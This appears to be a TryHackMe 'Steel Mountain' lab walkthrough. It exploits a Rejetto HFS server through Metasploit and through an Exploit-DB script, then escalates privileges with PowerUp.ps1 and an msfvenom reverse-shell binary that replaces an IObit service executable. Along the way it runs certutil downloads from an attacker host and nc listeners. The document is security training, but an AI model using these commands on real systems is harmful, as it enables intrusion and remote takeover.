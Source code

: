 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

```
nmap -A 10.10.248.189
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

```
msfconsole 
use exploit/windows/http/rejetto_hfs_exec 
set LHOST 10.10.62.157 
set RHOSTS 10.10.181.159 
set RPORT 8080
exploit
```

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
nc -nvlp 443
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
python2 -m SimpleHTTPServer 81
python2 exploit.py 10.10.181.159 8080
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Windows**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

```
cd C:\Program Files (x86)\IObit\Advanced SystemCare
sc stop AdvancedSystemCareService9 
certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe
```

**Kali**

```
nc -lvnp 4443
```

**Victim**

```
sc start AdvancedSystemCareService9
```

![](<../../.gitbook/assets/image (3) (1) (2) (1) (1) (1).png>)





